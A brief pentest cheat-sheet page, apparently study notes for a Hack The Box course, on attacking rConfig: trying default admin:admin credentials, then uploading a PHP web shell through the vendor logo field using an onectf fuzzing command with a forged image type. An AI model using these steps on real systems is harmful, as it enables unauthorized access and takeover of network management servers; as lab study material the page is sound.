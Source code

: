 # rConfig

[![shells_and_payloads](../../../../cybersecurity/_badges/htb/shells_and_payloads.svg)](https://academy.hackthebox.com/course/preview/shells--payloads)

<div class="row row-cols-lg-2"><div>

[rConfig](https://www.rconfig.com/) is a network configuration management tool. At least from the [GitHub](https://github.com/rconfig/rconfig) <small>(0.1k ⭐)</small> repository, it doesn't seem very popular.

* Look for web interface on port 80
* Test default credentials `admin:admin`

Look for well-known CVEs, the version is at the bottom of the page.
</div><div>

If successfully logged, you may try to upload a shell. Navigate to `Devices > Vendors`, click on `Add Vendor` and try to exploit the image field. For reference, with [onectf](https://github.com/QuentinRa/onectf/blob/main/docs/uffuf.md):

```shell!
$ onectf uffuf -u 'https://IP/lib/crud/vendors.crud.php' -v -k --nr -H 'Cookie: PHPSESSID=XXX' -d 'vendorName=onectf&add=add&editid=' -p vendorLogo -F webshell.php -Fn imageFUZZ -Ft image/gif -W .php
[302 or 200] means OK
[301] means KO
```
</div></div>